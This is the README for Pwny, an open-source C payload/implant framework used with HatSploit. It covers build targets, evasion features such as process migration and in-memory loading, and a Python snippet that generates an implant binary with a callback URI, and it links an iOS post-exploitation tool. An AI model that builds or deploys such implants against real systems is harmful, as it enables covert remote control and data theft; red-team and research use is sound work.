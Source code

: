 
<h3 align="left">
    <img width="45%" src="docs/demo.svg">
</h3>

*Friendly like a Pony, Mighty like a Knight*

[![Developer](https://img.shields.io/badge/developer-EntySec-blue.svg)](https://entysec.com)
[![Language](https://img.shields.io/badge/language-C-grey.svg)](https://github.com/EntySec/Pwny)
[![Language](https://img.shields.io/badge/language-Python-blue.svg)](https://github.com/EntySec/Pwny)
[![Forks](https://img.shields.io/github/forks/EntySec/Pwny?style=flat&color=green)](https://github.com/EntySec/Pwny/forks)
[![Stars](https://img.shields.io/github/stars/EntySec/Pwny?style=flat&color=yellow)](https://github.com/EntySec/Pwny/stargazers)
[![CodeFactor](https://www.codefactor.io/repository/github/EntySec/Pwny/badge)](https://www.codefactor.io/repository/github/EntySec/Pwny)

Pwny is an implementation of an advanced payload written in pure C and designed for portability and extensibility.

This repository contains Pwny, which is supposed to work on *macOS*, *Linux*, *Windows* and *iOS*, but can be ported to almost every POSIX system. Pwny is optimized to work with or without [HatSploit Framework](https://github.com/EntySec/HatSploit).

## Features

* Portable C code that can be compiled for a big range of targets.
* Support for *macOS*, *Linux*, *Windows* and *iOS* targets.
* Small executable with low resource utilization optimized for embedded systems.
* Dynamically-extendable, supports loading plugins (TABs) which extend its functionality.
* Evasion techniques such as process migration and in-memory loading.

## Installing

To install Pwny you simply need to install [HatSploit Framework](https://github.com/EntySec/HatSploit) and this will make Pwny available automatically.

```
pip3 install git+https://github.com/EntySec/HatSploit
```

## Building

**Building dependencies:**

```
make TARGET=<target>
```

**NOTE:** For *macOS / iOS* targets you are required to set `SDK` to the desired SDK path before running `make`. For example:

```
make TARGET=<target> SDK=<path>
```

You can find list of supported `TARGET` values for different platforms.

<details>
    <summary>Linux</summary><br>
    <code>aarch64-linux-musl</code><br>
    <code>armv5l-linux-musleabi</code><br>
    <code>armv5b-linux-musleabi</code><br>
    <code>i486-linux-musl</code><br>
    <code>x86_64-linux-musl</code><br>
    <code>powerpc-linux-muslsf</code><br>
    <code>powerpc64le-linux-musl</code><br>
    <code>mips-linux-muslsf</code><br>
    <code>mipsel-linux-muslsf</code><br>
    <code>mips64-linux-musl</code><br>
    <code>s390x-linux-musl</code><br>
    <br>
</details>

<details>
    <summary>Windows</summary><br>
    <code>x86_64-w64-mingw32</code><br>
    <code>x86_64-w64-mingw32</code><br>
    <br>
</details>

<details>
    <summary>macOS / iOS</summary><br>
    <code>arm-iphone-darwin</code><br>
    <code>aarch64-iphone-darwin</code><br>
    <code>i386-apple-darwin</code><br>
    <code>x86_64-apple-darwin</code><br>
    <code>aarch64-apple-darwin</code><br>
    <br>
</details>

**Building sources:**

```shell
cmake -DCMAKE_TOOLCHAIN_FILE=<toolchain> -B build
cmake --build build
```

**NOTE:** For *macOS / iOS* targets you are required to set `CMAKE_OSX_SYSROOT` to the desired SDK path with `-D`. For example:

```shell
cmake -DCMAKE_TOOLCHAIN_FILE=<toolchain> -DCMAKE_OSX_SYSROOT=<path> -B build
```

**NOTE:** Toolchains are located at `toolchain/cmake/`.

These are other `cmake` build options:

* `MAIN` - Should be `ON` if you want to build a source file to executable.
* `SOURCE` - Custom executable source file (default are in `src/main/`).
* `DEBUG` - Should be `ON` if you want to build Pwny in debug mode.
* `BUNDLE` - Build as bundle (macOS specific flag, adds `-bundle`)
* `SHARED` - Build shared object instead.

## Basic usage

To use Pwny and build payloads you should import it to your source.

```python3
from pwny import Pwny
from pwny.session import PwnySession
```

* `Pwny` - Pwny object that is used to generate payload implant.

```python3
pwny = Pwny(
    target='aarch64-apple-darwin',
    options={
        'uri': 'tcp://127.0.0.1:8888'
    }
)

with open('payload.exe', 'wb') as f:
    f.write(pwny.to_binary())
```

* `PwnySession` - Wrapper for `HatSploitSession` for Pwny, HatSploit should use it with Pwny payload. It might also be used without HatSploit as demonstrated in `examples/listener.py`.

## Projects

* [SeaShell Framework](https://github.com/EntySec/SeaShell) - iOS post-exploitation framework that enables you to access the device remotely, control it and extract sensitive information. SeaShell actively uses Pwny implant to communicate with iOS.

## Caveats

The code provided in this repository has not yet been prepared for use in a production environment. It can be improved, so any contribution is welcome. You can even experience memory leaks, so we'll be glad to accept every single PR which is fixing a potential issue.
